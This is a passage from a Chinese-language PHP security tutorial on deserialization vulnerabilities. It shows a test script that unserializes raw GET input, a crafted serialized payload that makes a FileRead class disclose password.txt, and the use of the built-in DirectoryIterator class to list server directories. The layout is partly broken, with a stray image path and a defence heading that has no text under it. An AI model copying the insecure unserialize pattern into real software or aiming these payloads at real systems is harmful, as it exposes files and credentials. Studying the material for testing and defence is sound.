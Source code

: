 个网站内正常页面应引用fileread.php文件，代码中使用unserialize()进行了反序列化，且反序列化的值是用户输入可控 。

测试代码：

```php
<?php 
	//引用fileread.php文件
	include './fileread.php';
	//定义用户类
	class User
	{
		public $name = 'aa';
		public $age = 18;
		function __toString()
		{
			return '姓名:'.$this->name.';'.'年龄:'.$this->age;
		}
	}
	//O:4:"User":2:{s:4:"name";s:2:"aa";s:3:"age";i:18;}
	//反序列化
	$obj = unserialize($_GET['user']);
	//当成字符串输出触发toString
	echo $obj;
 ?>
```

 正常重构：O:4:"User":2:{s:4:"name";s:2:"aa";s:3:"age";i:18;}

 

重构fileread.php文件包含的类进行读取password.txt文件内容

重构：O:8:"FileRead":1:{s:8:"filename";s:12:"password.txt";}
九反序列化漏洞的防御

##### <font color="red">[!重要] 8.原生类利用</font>

当存在反序列化但是没有可以利用的类时，我们一般通过原生类进行构造，原生类是php直接继承的类，可以直接创建对象。

-**DirectoryIterator类**

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口。该类的构造方法将会创建一个指定目录的迭代器。


DirectoryIterator 类会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 __toString() 方法，输出指定目录里面经过排序之后的第一个文件名：

例如：

```php
<?php
$dir=new DirectoryIterator("/");
echo $dir;
```


这个查不出来什么，如果想输出全部的文件名我们还需要对$dir对象进行遍历：

```php
<?php
$dir=new DirectoryIterator("/");
foreach($dir as $tmp){
    echo($tmp.'\<br>');
    //echo($tmp->toString().'\<br>); //与上句效果一样
}
```

